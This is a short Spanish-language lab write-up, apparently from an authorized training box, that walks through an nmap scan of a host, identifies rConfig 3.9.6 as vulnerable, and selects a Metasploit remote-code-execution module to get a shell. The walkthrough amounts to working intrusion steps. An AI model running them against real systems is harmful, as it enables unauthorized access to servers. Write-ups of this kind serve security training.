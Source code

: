 Objetivo: documentar, paso a paso, el razonamiento y comandos clave para obtener una shell en un host Linux que ejecuta rConfig 3.9.6 en un entorno de laboratorio con autorización.

Lanzamos un: 
```
nmap -sC -sV 10.129.201.101
```

Y encontramos:
- **21/tcp FTP** → vsftpd 2.0.8+
- **22/tcp SSH** → OpenSSH 7.4
- **80/tcp HTTP** → Apache 2.4.6 (CentOS) + PHP 7.2.34
- **443/tcp HTTPS** → Apache 2.4.6 (CentOS) + PHP 7.2.34, cert self-signed
- **111/tcp rpcbind**
- **3306/tcp MySQL** (no autorizado)

Con esto podemos hacer una hipótesis, y es que el host es de tipo *web server* que aloja a una aplicación web (HTTP/HTTPS) + base de datos MYSQL.

Accedemos a https://10.129.201.101/ y observamos que utiliza la versión **rCONFIG 3.9.6**, y una búsqueda rápida en google nos dice que este servicio es vulnerable.

Buscando exploits en *msfconsole* del tipo "search exploit rconfig", vemos que muestra algunos PAYLOADS interesantes para servicios http:
```
   7   exploit/linux/http/rconfig_ajaxarchivefiles_rce          2020-03-11       good       Yes    Rconfig 3.x Chained Remote Code Execution
   8   exploit/linux/http/rconfig_vendors_auth_file_upload_rce  2021-03-17       excellent  Yes    rConfig Vendors Auth File Upload RCE
   9   exploit/unix/webapp/rconfig_install_cmd_exec             2019-10-28       excellent  Yes    rConfig install Command Execution

```
Vamos a utilizar el:
```
use exploit/linux/http/rconfig_ajaxarchivefiles_rce
```
Establecemos el RHOST pertinente y lo lanzamos con un "run".




